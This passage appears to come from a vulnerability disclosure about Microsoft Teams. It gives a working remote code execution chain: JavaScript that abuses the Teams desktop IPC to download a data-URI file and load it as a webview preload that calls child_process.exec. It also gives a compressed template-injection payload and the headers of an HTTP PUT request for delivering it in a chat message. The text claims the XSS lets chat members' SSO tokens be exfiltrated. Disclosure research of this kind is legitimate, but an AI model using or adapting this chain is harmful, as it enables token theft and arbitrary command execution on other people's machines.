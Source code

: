 this will log user's local storage as a XSS PoC.

**no further actions are necessary. all users within this chat will start logging their SSO tokens which can be exfiltrated**.

you can verify this by checking development tools in either Microsoft Teams desktop or any browser.

## Remote code execution & payload

A novel remote code execution payload was developed, which bypasses all restrictions currently implemented (remote require, node integration, webview preload filtering etc.) in Microsoft Teams desktop and should work even if `contextIsolation` was enabled.

```javascript
cmd = `open /Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```

Shortened version for HTTP PUT request and improved to execute only once per reload:

```
{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

Full HTTP PUT request with RCE payload:
```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: ...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


```